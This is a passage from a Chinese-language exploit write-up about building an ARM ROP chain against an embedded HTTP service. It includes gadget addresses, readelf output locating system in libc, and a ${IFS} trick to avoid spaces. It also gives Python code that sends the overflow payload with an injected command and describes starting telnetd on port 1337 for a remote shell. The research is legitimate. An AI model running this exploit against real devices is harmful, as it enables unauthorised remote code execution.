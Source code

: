   
![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnSWGjiaxicD2QJYKeDNqbShKjTqTaKuLGADJicCcjSKjibAYTZLUJFSHdbD4B4D9Nw5lK9wblpZRacLHQ/640?wx_fmt=png&from=appmsg "")  
  
  
经过一段时间的搜索，我找到了以下解决方案：  
‍  
  
```
0x000175cc: pop {r3, pc}
0x000535e8: system
0x000368dc: mov r0, sp；blx r3

```  
  
  
第一个gadget将R3设置为一个可控的值，并跳转到下一个地址。第二个gadget（movr0,sp；blxr3）将栈指针移动到R0（system函数的第一个参数），并跳转到R3，而R3之前被设置为system函数的地址。  
  
  
函数地址（例如system的地址）可以通过readelf-s来确定。但需要注意的是，我们需要将相应二进制文件或库的基地址添加到输出中看到的偏移量中。这确保了在构建ROP链时使用的是正确的地址  
。  
‍  
  
```
$ readelf -s libc.so.0 | grep system
   659: 0003dfc0    80 FUNC   GLOBAL DEFAULT    7 svcerr_systemerr
   853: 000535e8   116 FUNC   WEAK   DEFAULT    7 system
   864: 000535e8   116 FUNC   GLOBAL DEFAULT    7 __libc_system 

```  
  
  
正如我们之前所了解的，payload不能包含任何空格。然而，我发现这可以通过众所周知的${IFS}技巧[15]轻松绕过。  
  
  
将所有内容整合在一起，我最终构建了一个大致如下的漏洞利用程序（完整源代码可在此处获取）：  
  
```
def main():
    maps = fetch_maps()
    libc, libc_base = parse_maps(maps)
    payload = b""
    payload += 304 * b"A"
    payload += pack("<I", libc_base + GADGETS[libc][0]) # pop {r3, pc}
    payload += pack("<I", libc_base + GADGETS[libc][1]) # system
    payload += pack("<I", libc_base + GADGETS[libc][2]) # mov r0, sp；blx r3
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as sock:
        sock.connect((HOST, PORT))
        sock.send(b"GET /" + payload + CMD.replace(b" ", b"${IFS}") + 
b"；.mns.cab HTTP/1.1")
        sock.send(b"\r\n\r\n")
    
        print(sock.recv(1024)

```  
  
  
由于  
在没有远程交互方式的情况下，/bin/sh命令并不是非常有用，因此我使用telnetd在目标的1337端口上启动了一个telnet服务器。这使我能够连接并获取一个shell。  
  